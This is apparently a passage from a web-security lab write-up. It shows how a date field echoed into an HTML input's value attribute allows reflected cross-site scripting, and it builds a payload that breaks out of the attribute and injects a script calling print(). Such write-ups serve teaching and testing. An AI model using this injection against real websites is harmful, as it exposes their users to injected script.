 ![Untitled](Assets/Untitled%2010.png)

However we can intercept the request in between thru the proxy and then modify and sent this request to the server and play around with it. 

On entering information normally, the rendered output looks like this in HTML:

![Untitled](Assets/Untitled%2011.png)

Specifically, we notice that the date entered is being rendered in an HTML element like so:

```html
<input type="date" class="form-control" id="date" aria-label="Username" aria-describedby="basic-addon1" value="2023-08-10" locked="">
```

Whatever we enter shows up in this section:

```html
<input type="date" class="form-control" id="date" aria-label="Username" aria-describedby="basic-addon1" value="{our entered information / text}" locked="">
```

So to design an XSS attack, we can see if we can end the HTML tag here itself and then start a new script tag there with our own javascript code. I will be trying to trigger the `print()` function which usually sends the page to the printer. This should look something like:

```html
<input type="date" class="form-control" id="date" aria-label="Username" aria-describedby="basic-addon1" value=" "><script>print()</script>" locked="">
```

